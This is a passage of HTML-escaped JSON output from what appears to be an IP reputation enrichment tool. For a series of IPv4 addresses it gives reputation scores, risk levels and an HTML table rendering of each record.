&quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;65.9.42.42&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.192.46.235&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.192.46.235&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 398470891,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;23.192.46.235&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;142.251.42.131&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 41,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;142.251.42.131&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2398825091,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 41,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;142.251.42.131&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;41&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;13.107.21.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 83,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;13.107.21.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 225121775,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 83,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;13.107.21.239&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;83&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;5&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.111.245.2&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.111.245.2&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 879752450,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.111.245.2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.43.249.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.43.249.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 388757802,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;23.43.249.42&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.112.115.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.112.115.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 879784707,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.112.115.3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;20.198.119.84&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 19,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;20.198.119.84&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 348550996,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 19,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;20.198.119.84&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;19&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;138.199.21.216&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 17,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;138.199.21.216&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2328303064,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 17,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;138.199.21.216&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;17&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;168.63.129.16&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;168.63.129.16&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2822734096,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table 